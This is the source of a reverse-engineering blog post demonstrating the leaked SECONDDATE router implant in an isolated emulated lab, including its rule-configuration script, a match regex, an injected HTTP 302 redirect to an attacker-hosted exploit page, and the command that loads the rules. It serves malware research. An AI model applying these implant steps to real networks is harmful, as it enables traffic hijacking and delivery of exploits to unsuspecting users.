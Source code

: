 ```yaml
---
layout: post
title: SECONDDATE in action
author: Wladimir J. van der Laan
tags: [eqgrp, malware]
categories: [Reverse-engineering]
---
```


Here I've taken the environment from the [BLATSTING Command-and-Control protocol]({{ site.baseurl
}}/2016/09/04/blatsting-command-and-control.html) article and extended it, so that the emulator works as a router
between an internal network with our victim and an external network, a mock version of the internet with just our
attacker and one web server:

<pre>
SimInternet, level 2

                      ╔════════════════════════════╗
                      ║ BLATSTING emulator         ║
╔════════════════╗    ║ ╔════════════════════════╗ ║    ╔════════════════╗  emulated
║ Victim host    ║    ║ ║  Emulated modules      ║ ║    ║ Attacker host  ║  serial
║                ║    ║ ║ ┌─────────┐ ┌────────┐ ║ ║    ║ ┌─────┐┌─────┐ ║  (control)
║ ┌─────────┐    ║    ║ ║ │ second  ◀┄▶ hash   │ ║ ║    ║ │httpd││SD LP│◀━━━━━━━━  
║ │ Browser │    ║    ║ ║ │ date    │ └────────┘ ║ ║    ║ └─────┘└─────┘ ║
║ └─────────┘    ║    ║ ║ │         │ ┌────────┐ ║ ║    ║      ↕         ║
║      ↕         ║    ║ ║ │         ◀┄▶ crypto │ ║ ║    ║ Linux nw. stck ║
║ Linux nw. stck ║    ║ ║ └─────────┘ └────────┘ ║ ║    ╚══════▲═════════╝
╚══════▲═════════╝    ║ ╚════▲════▲══════════════╝ ║           ┃   ╔══════════════════╗
       ┃              ║ ┌────▼──┐ ┆                ║           ┣━━━▶ Web server ACME  ║
       ┃              ║ │ [stub]│ ┆                ║ "outside" ┃   ║ Int. Widgits Ltd ║
       ┃     "inside" ║ │ core  │┌▼───────┐ Emu.nw.║ eth1      ┃   ╚══════════════════╝
       ┃         eth2 ║ └───────┘│ [stub] ◀┄┄┄┄┄┄┄┄▶◀━━━━━━━━━━┛
       ┗━━━━━━━━━━━━━▶◀┄┄┄┄┄┄┄┄┄┄▶ network│ Stck   ║  Eth-over-UDP 
                      ║          └────────┘        ║               
                      ╚════════════════════════════╝
</pre>

This will allow using SECONDDATE as it was intended to be used, to redirect website visitors (but only on the isolated
virtual network). The attacker runs a web server to redirect the victim to, which serves exploit payloads (a FOXACID
server, in Equation Group jargon).

<iframe src="https://showterm.io/252abdc707d56d893210a" width="640" height="420"></iframe>

[Showterm session](https://showterm.io/252abdc707d56d893210a) of the experiment described here.

### Setup: Attacker

We'll (as the attacker) set up the implant with this LP script:

```bash
disable 1
rule 1 --protocol 6 --dstport 80 --nocheckhttp --checkregex --inject --injectfile injectfile_tcp --regexfile regex_tcp
enable 1
```

{: .center}
*tcptest.seconddate: configuration script for setting up SECONDDATE.*

```bash
rule [rulenum] [opts ...]           Sets options for a rule.
                                      where opts is one or more of the following options
                                     (defaults are shown in parentheses):
                                     [--srcaddr addr(0)] [--srcmask mask(0)]
                                     [--dstaddr addr(0)] [--dstmask mask(0)]
                                     [--protocol prot(6/TCP)] [--srcport port(0)] [--dstport port(0)]
                                     [--mininterval(60)] [--maxinjections(5)] [--injectwindow(0)]
                                     [--checkhttp (default) | --nocheckhttp]
                                     [--checkregex (default) | --nocheckregex]
                                         [--inject (default) | --noinject
                                     [--tcpflag (FIN ACK PSH) URG | ACK | PSH | RST | SYN | FIN ]
                                     [--regexfile <filename>] [--injectfile <filename>
```

{: .center}
*SD rule definitions, from SecondDateLp `help`.*

The script does the following:

- `disable 1`: Disable any previous rule 1 (this allows for quick reloading, as live rules cannot be re-configured).
- `rule 1 ...`: Set up rule 1.
  - `--protocol 6`: Match IP protocol 6, [which happens to be
    TCP](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers). Only TCP or UDP allowed here.
  - `--dstport 80`: Destination port 80, HTTP.
  - `--nocheckhttp`: Don't use the built-in regexp for HTTP, that's no fun. Define our own.
  - `--checkregex`: Check for regex defined in `--regexfile` below.
  - `--inject`: Do packet injections.
  - `--injectfile injectfile_tcp`: Set data to inject on injection.
  - `--regexfile regex_tcp`: Set regexp to match.
- `enable 1`: Make rule 1 live.

It is possible to fine-tune various parameters such as the maximum number of injections, the time within which this has
to happen, the time between injections and so on and so on, but the defaults work fine for sake of this demo.

```bash
^GET / .*
```

{: .center}
*`regex_tcp`: The regular expression to match on TCP packets. This looks for HTTP GET requests to the root, any protocol.
This can be any valid [PCRE](https://www.debuggex.com/cheatsheet/regex/pcre) regular expression.*

```bash
HTTP/1.1 302 Found
Location: http://192.168.1.1/exploit.html

grazing buzzards
```

{: .center}
*`injectfile_tcp`: This will be injected into the TCP session. A basic HTTP temporary redirect to the evil web server.
`grazing buzzards` is just a 16-byte string that I use for finding the packet in captures.*

Then subsequently load it into the implant by invoking the LP command from the shell and piping in the script:

```bash
$ ./SecondDate-3.1.1.0.SecondDateLp 192.168.1.2 < tcptest.seconddate
```

{: .center}
*Loading the rules, from LP-side serial console.*

### Setup: Victim

The victim is simply using a PC running a browser and is trying to visit a website over HTTP. Luckily with [HSTS
preloading](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) the latter is happening less and less in
practice. For the sake of being able to record the terminal session they are using the venerable browser `lynx`,
but this will work with any browser.

### The attack

The victim, from IPv4 address `192.168.2.1`, is trying to visit the legitimate web server of ACME Internet Widgits Ltd.
at `192.168.1.100`, through their router (Internet IP `192.168.1.2`). They will be redirected to the attacker's host,
`192.168.1.1`, which hosts an exploit page. To recap:

<pre>
                                                           ╔══════════╗
╔════════════════╗                                         ║ Attacker ║
║ Victim host    ║                                         ╚════▲═════╝
║                ║                  ╔═════════════╗             ┃ 192.168.1.1
║ ┌─────────┐    ║ 192.168.2.1      ║ Compromised ║             ┃  
║ │ Browser │    ◀━━━━━━━━━━━━━━━━━━▶ Router      ◀━━━━━━━━━━━━━┫
║ └─────────┘    ║      192.168.2.2 ╚═════════════╝ 192.168.1.2 ┃
║                ║                                              ┃ 192.168.1.100
║                ║                                 ╔════════════▼═════╗
╚════════════════╝                                 ║ Web server ACME  ║
                                                   ║ Int. Widgits Ltd ║
                                                   ╚══════════════════╝
</pre>

What happens:

- Victim opens `http://192.168.1.100/` in their browser, which opens a connection to the web server of
  ACME Int. Widgits Ltd.

{: .center}
![ACME Internet Widgits Ltd]({{ site.baseurl }}/assets{{ page.id }}/acme.png "ACME Internet Widgits Ltd")

*The website of ACME Internet Widgits Ltd., which has a world-wide monopoly on delivering Schrödinger's boxes by drone. Cat not included.*

- SD, running on the compromised router, triggers on the first content packet of this connection, eats it, and instead injects a packet to redirect
  to the attacker's server. It resets the connection to the original web server with a TCP RST packet.

- Victim is redirected to `http://192.168.1.100/exploit.html`, and will load whatever is on that page. 

{: .center}
![Lazy exploit]({{ site.baseurl }}/assets{{ page.id }}/exploit.png "Lazy exploit")

*The ultimate lazy exploit, just for illustration. Not only does the victim have to adjust their CPU's
instruction pointer manually, they'd have to first finish writing the shellcode. The Equation Group has better ones
available. The target link would in practice point to a browser exploit (usually aimed at a plugin such as Flash), or a
backdoored installer when intercepting a download.*

- Note that when the victim immediately loads the site again they won't get redirected again. The `mininterval` serves
  as a cool-down period.

Packet captures:

- [seconddate_int.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_int.cap) internal network
- [seconddate_ext.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_ext.cap) external network (includes [C&C]({{ site.baseurl }}/2016/09/17/seconddate-cnc.html)
  traffic)

